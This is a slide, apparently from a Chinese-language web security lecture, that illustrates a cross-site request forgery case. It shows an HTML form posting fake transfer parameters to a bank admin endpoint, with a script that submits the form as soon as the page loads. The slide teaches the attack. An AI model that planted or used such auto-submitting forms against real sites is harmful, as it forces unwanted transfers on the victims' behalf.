

# CSRF：案例2
案例2：
【代码示例】
例如，一个银行篡改用户转账路径是通过如下方式实现的：

| POST http://bank.com/transfer/payment? <form action=http://localhost/myx/admin.jsp/acate/trans method=POST>     <input type="text" name="id" value="102" />     <input type="text" name="trans" value="20123012310" /> </form> <script> document.forms[0].submit(); </script> |
| --- |